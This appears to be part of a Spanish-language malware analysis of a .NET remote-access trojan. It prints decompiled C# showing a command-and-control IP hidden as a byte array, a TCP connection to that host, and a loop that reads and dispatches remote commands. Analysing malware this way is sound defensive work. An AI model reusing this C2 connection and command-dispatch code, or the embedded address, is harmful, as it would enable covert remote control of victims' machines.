 4. Analizando lo que hace el método **procvQloop()**, inicia una conexión TCP con la IP almacenada en la variable _min\_codns_; en dicha variable, la IP se encuentra almacenada como un conjunto de bytes, probablemente para dificultar su detección:

```c#
DIRERRIF.mainwtp = Encoding.UTF8.GetString(DIRERRIF.min_codns, 0, DIRERRIF.min_codns.Length).ToString();
this.maiedet = new TcpClient();
this.maiedet.Connect(DIRERRIF.mainwtp, DIRERRIF.port);
```
```c#
public static byte[] min_codns = new byte[]
{49, 54, 50, 46, 50, 52, 53, 46, 49, 57, 49, 46, 50, 49, 55};
```

La conexión TCP se realiza con la IP almacenada en la variable _min\_codns_ en el puerto asignado a la variable _port_.

5. Una vez realizada la conexión, si es exitosa, se llama al método **procD_core()**, el cual realiza múltiples operaciones:
    1. Obtiene una respuesta de la conexión TCP establecida previamente.
    2. Separa la respuesta obtenida utilizando el separador '='.
    3. En base al primer valor de la respuesta (lo que estaba antes del '=') llama a distintos métodos.


```c#
private void procD_core()
        ...
		string[] procss_type = this.get_procsQtype();
		...
		string text = procss_type[0].ToLower();
		...
		if (text == "thyTumb")
		{
			this.imagiQtails(procss_type[1]);
		}
		if (text == "scyTrsz")
		{
			this.dsAscrnsize(procss_type[1]);
		}
		...
```


```c#
public string[] get_procsQtype()
{
	string[] result;
	try
	{
		byte[] array = new byte[5];
		this.byteAdesr = this.newWam.Read(array, 0, 5);
		int num = BitConverter.ToInt32(array, 0);
		byte[] array2 = new byte[num];
		int num2 = 0;
		for (int i = num; i > 0; i -= this.byteAdesr)
		{
			int count = (i > this.bufeAize) ? this.bufeAize : i;
			this.byteAdesr = this.newWam.Read(array2, num2, count);
			num2 += this.byteAdesr;
		}
		string text = Encoding.UTF8.GetString(array2, 0, num).ToString();
		if (text.Trim() == "")
		{
			result = null;
		}
		else
		{
```